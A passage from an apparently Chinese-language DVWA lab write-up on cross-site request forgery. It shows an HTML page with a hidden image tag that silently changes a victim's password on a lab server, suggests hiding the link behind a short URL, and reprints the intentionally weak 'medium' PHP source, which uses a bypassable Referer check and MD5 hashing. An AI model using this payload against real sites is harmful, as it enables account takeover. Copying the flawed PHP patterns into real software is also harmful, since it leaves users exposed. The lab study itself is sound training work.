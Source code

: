 所以可以通过短链接进行隐藏，短链接会将用户连接转换为http://t.hk.uy/zMt的形式，不过要有自己的域名，我没有就不试了。

也可以通过下面的形式进行利用

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>test</title>
</head>
<body>
    <img src="http://192.168.134.136:8080/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change#">
</body>
</html>
```

受害用户访问这个网页会自动向服务请发送请求，修改密码



#### medium

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ])!=-1 ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

```